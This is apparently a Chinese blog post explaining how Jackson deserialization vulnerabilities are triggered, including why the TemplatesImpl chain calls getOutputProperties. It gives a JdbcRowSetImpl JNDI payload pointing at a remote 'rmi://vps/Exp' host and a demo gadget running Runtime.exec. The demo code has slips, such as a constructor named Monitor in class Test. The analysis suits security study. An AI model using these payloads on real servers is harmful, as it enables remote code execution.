 # Jackson的利用触发及小细节

不会很详细，简单分析一些重要的
## 触发前提
满足下面三个条件之一即存在Jackson反序列化漏洞：

调用了ObjectMapper.enableDefaultTyping()函数；
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解；


## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

列举一个利用payload大概格式如此

```java
String json = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"rmi://vps/Exp\", \"autoCommit\":true}]";
```



### 第二种

简单举个例子来理解下，新增一个Test类



```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以




## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了



在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法

![](img/1.png)

这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）

![](img/2.png)

这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`



## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
